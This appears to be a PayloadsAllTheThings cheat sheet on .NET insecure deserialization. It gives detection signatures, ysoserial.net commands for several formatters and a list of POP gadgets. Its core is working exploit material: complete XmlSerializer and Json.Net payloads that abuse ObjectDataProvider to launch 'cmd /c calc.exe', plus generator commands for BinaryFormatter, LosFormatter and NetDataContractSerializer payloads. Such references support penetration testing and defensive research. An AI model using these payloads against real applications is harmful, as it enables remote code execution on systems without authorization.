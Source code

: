 # .NET Serialization

## Summary

* [Detection](#detection)
* [Tools](#tools)
* [Formatters](#formatters)
    * [XmlSerializer](#xmlserializer)
    * [DataContractSerializer](#datacontractserializer)
    * [NetDataContractSerializer](#netdatacontractserializer)
    * [LosFormatter](#losformatter)
    * [JSON.NET](#jsonnet)
    * [BinaryFormatter](#binaryformatter)
* [POP Gadgets](#pop-gadgets)
* [References](#references)


## Detection

* `AAEAAD` (Hex) = .NET deserialization BinaryFormatter
* `FF01` (Hex) / `/w` (Base64) = .NET ViewState

Example: `AAEAAAD/////AQAAAAAAAAAMAgAAAF9TeXN0ZW0u[...]0KPC9PYmpzPgs=`


## Tools

* [pwntester/ysoserial.net - Deserialization payload generator for a variety of .NET formatters](https://github.com/pwntester/ysoserial.net)
```ps1
$ cat my_long_cmd.txt | ysoserial.exe -o raw -g WindowsIdentity -f Json.Net -s
$ ./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
$ ./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
$ ./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```

## Formatters

![NETNativeFormatters.png](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/Insecure%20Deserialization/Images/NETNativeFormatters.png?raw=true)    
.NET Native Formatters from [pwntester/attacking-net-serialization](https://speakerdeck.com/pwntester/attacking-net-serialization?slide=15)


### XmlSerializer

* In C# source code, look for `XmlSerializer(typeof(<TYPE>));`.
* The attacker must control the **type** of the XmlSerializer.
* Payload output: **XML**

```xml
.\ysoserial.exe -g ObjectDataProvider -f XmlSerializer -c "calc.exe"
<?xml version="1.0"?>
<root type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
        <ExpandedElement/>
        <ProjectedProperty0>
            <MethodName>Parse</MethodName>
            <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    <![CDATA[<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:b="clr-namespace:System;assembly=mscorlib" xmlns:c="clr-namespace:System.Diagnostics;assembly=system"><ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><b:String>cmd</b:String><b:String>/c calc.exe</b:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></ResourceDictionary>]]>
                </anyType>
            </MethodParameters>
            <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>
```


### DataContractSerializer

> The DataContractSerializer deserializes in a loosely coupled way. It never reads common language runtime (CLR) type and assembly names from the incoming data. The security model for the XmlSerializer is similar to that of the DataContractSerializer, and differs mostly in details. For example, the XmlIncludeAttribute attribute is used for type inclusion instead of the KnownTypeAttribute attribute.

* In C# source code, look for `DataContractSerializer(typeof(<TYPE>))`.
* Payload output: **XML**
* Data **Type** must be user-controlled to be exploitable


### NetDataContractSerializer 

> It extends the `System.Runtime.Serialization.XmlObjectSerializer` class and is capable of serializing any type annotated with serializable attribute as `BinaryFormatter`.

* In C# source code, look for `NetDataContractSerializer().ReadObject()`.
* Payload output: **XML**

```ps1
.\ysoserial.exe -f NetDataContractSerializer -g TypeConfuseDelegate -c "calc.exe" -o base64 -t
```


### LosFormatter

* Use `BinaryFormatter` internally.

```ps1
.\ysoserial.exe -f LosFormatter -g TypeConfuseDelegate -c "calc.exe" -o base64 -t
```


### JSON.NET

* In C# source code, look for `JsonConvert.DeserializeObject<Expected>(json, new JsonSerializerSettings`.
* Payload output: **JSON**

```ps1
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc.exe" -t
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35', 
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc.exe']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```


### BinaryFormatter

> The BinaryFormatter type is dangerous and is not recommended for data processing. Applications should stop using BinaryFormatter as soon as possible, even if they believe the data they're processing to be trustworthy. BinaryFormatter is insecure and can’t be made secure.

* In C# source code, look for `System.Runtime.Serialization.Binary.BinaryFormatter`.
* Exploitation requires `[Serializable]` or `ISerializable` interface.
* Payload output: **Binary**


```ps1
./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```


## POP Gadgets

These gadgets must have the following properties:
* Serializable
* Public/settable variables
* Magic "functions": Get/Set, OnSerialisation, Constructors/Destructors

You must carefully select your **gadgets** for a targeted **formatter**.


List of popular gadgets used in common payloads.
* **ObjectDataProvider** from `C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll`
    * Use `MethodParameters` to set arbitrary parameters
    * Use `MethodName` to call an arbitrary function 
* **ExpandedWrapper**
    * Specify the `object types` of the objects that are encapsulated
    ```cs
    ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
    ```
* **System.Configuration.Install.AssemblyInstaller**
    * Execute payload with Assembly.Load   
    ```cs
    // System.Configuration.Install.AssemblyInstaller
    public void set_Path(string value){
        if (value == null){
            this.assembly = null;
        }
        this.assembly = Assembly.LoadFrom(value);
    }
    ```


## References

- [ARE YOU MY TYPE? Breaking .NET sandboxes through Serialization - Slides - James Forshaw - September 20, 2012](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_Slides.pdf)
- [ARE YOU MY TYPE? Breaking .NET sandboxes through Serialization - White Paper - James Forshaw - September 20, 2012](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf)
- [Attacking .NET Deserialization - Alvaro Muñoz - April 28, 2018](https://youtu.be/eDfGpu3iE4Q)
- [Attacking .NET Serialization - Alvaro - October 20, 2017](https://speakerdeck.com/pwntester/attacking-net-serialization?slide=11)
- [Basic .Net deserialization (ObjectDataProvider gadget, ExpandedWrapper, and Json.Net) - HackTricks - July 18, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net)
- [Bypassing .NET Serialization Binders - Markus Wulftange - June 28, 2022](https://codewhitesec.blogspot.com/2022/06/bypassing-dotnet-serialization-binders.html)
- [Exploiting Deserialisation in ASP.NET via ViewState - Soroush Dalili (@irsdl) - April 23, 2019](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
- [Finding a New DataContractSerializer RCE Gadget Chain - dugisec - November 7, 2019](https://muffsec.com/blog/finding-a-new-datacontractserializer-rce-gadget-chain/)
- [Friday the 13th: JSON Attacks - DEF CON 25 Conference - Alvaro Muñoz (@pwntester) and Oleksandr Mirosh - July 22, 2017](https://www.youtube.com/watch?v=ZBfBYoK_Wr0)
- [Friday the 13th: JSON Attacks - Slides - Alvaro Muñoz (@pwntester) and Oleksandr Mirosh - July 22, 2017](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf)
- [Friday the 13th: JSON Attacks - White Paper - Alvaro Muñoz (@pwntester) and Oleksandr Mirosh - July 22, 2017](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf)
- [Now You Serial, Now You Don't - Systematically Hunting for Deserialization Exploits - Alyssa Rahman - December 13, 2021](https://www.mandiant.com/resources/blog/hunting-deserialization-exploits)
- [Sitecore Experience Platform Pre-Auth RCE - CVE-2021-42237 - Shubham Shah - November 2, 2021](https://blog.assetnote.io/2021/11/02/sitecore-rce/)